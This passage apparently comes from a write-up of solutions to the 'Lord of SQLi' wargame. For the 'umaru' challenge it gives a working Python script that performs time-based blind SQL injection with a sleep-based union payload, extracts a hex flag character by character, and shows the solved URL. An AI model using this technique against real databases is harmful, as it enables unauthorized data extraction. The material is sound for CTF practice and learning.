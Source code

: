 ## 24. Evil Wizard
This challenge is broken.

[http://los.eagle-jump.org/evil_wizard_6d97f2ce1c9e5b84721ac30a656ad109.php](http://los.eagle-jump.org/evil_wizard_6d97f2ce1c9e5b84721ac30a656ad109.php)

___

## 25. umaru
``` python
import urllib.parse, urllib.request
import time

PHPSESSID = '**secret**'

def reset():
	url = 'http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag=1'
	headers = {
		'User-Agent': 'Mozilla/5.0',
		'Cookie':'PHPSESSID=' + PHPSESSID
	}
	req = urllib.request.Request(url, None, headers)
	res = urllib.request.urlopen(req).read().decode()
	return res.startswith('\nreset ok')

def inject(flag):
	url = 'http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag=' \
		'(select+1+union+select+sleep(3*(flag+like+%27' + flag + '%%27)))'
	headers = {
		'User-Agent': 'Mozilla/5.0',
		'Cookie':'PHPSESSID=' + PHPSESSID
	}
	t = time.time()
	req = urllib.request.Request(url, None, headers)
	res = urllib.request.urlopen(req).read().decode()
	return res == '\n' and time.time() - t > 3

def main():
	print('reset:', 'success' if reset() else 'fail')
	flag = ''
	for i in range(16):
		for c in '0123456789abcdef':
			if inject(flag + c):
				flag += c
				print('flag:', flag)
				break
			else:
				print('try:', c)

if __name__ == '__main__':
	main()
```

[http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag=1651be4010cb7153](http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag=1651be4010cb7153)